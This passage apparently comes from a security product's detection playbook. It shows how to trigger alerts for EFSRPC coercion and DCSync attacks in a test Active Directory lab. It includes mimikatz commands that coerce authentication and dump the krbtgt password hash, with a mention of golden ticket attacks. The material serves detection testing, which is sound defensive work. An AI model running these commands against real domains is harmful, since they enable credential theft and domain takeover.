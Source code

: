 Detail in the alert:  

![Suspected Netlogon privilege elevation attempt alert details.](media/playbooks/netlogon-privilege-elevation-details.png)  

## Suspicious network connection over Encrypting File System Remote Protocol

For details about this alert, see [Suspicious network connection over Encrypting File System Remote Protocol (external ID 2416)](lateral-movement-alerts.md#suspicious-network-connection-over-encrypting-file-system-remote-protocol-external-id-2416).

This detection is triggered when an attacker tries to take over an Active Directory domain by exploiting a flaw in the Encrypting File System Remote (EFSRPC) Protocol.

From a command line on a workstation, run with a local admin account:  

```cmd
mimikatz # privilege::debug  
mimikatz # misc::efs /server:10.4.0.100 /connect:10.4.0.13 /noauth
```

Tools available from: <https://github.com/gentilkiwi/mimikatz/releases>  

Detail in the alert:  

![Suspicious network connection over Encrypting File System Remote Protocol alert details.](media/playbooks/efsrpc-details.png)

## Suspected DCSync attack (replication of directory services)

For details about this alert, see [Suspected DCSync attack (replication of directory services) (external ID 2006)](credential-access-alerts.md#suspected-dcsync-attack-replication-of-directory-services-external-id-2006).

If attackers have the *DS-Replication-Get-Changes-All* permission, they can initiate a replication request to retrieve the data stored in Active Directory, such as the krbtgt's password hash.

In this detection, an alert is triggered when a replication request is initiated from a computer that isn't a domain controller.  

From a command line on a workstation, run with a least local admin account:  

```cmd
mimikatz # privilege::debug  
mimikatz # lsadump::dcsync /domain:msdemo.local /user:krbtgt
```

This will retrieve the krbtgt's password hash and move to a golden ticket attack.

Tools available from: <https://github.com/gentilkiwi/mimikatz/releases>  

You should see the activities and the alert in the client machine timeline:  

![Suspected DCSync attack (replication of directory services) alert.](media/playbooks/dcsync.png)  

In the alert, a user failed to retrieve the DCsync (not enough permission):  
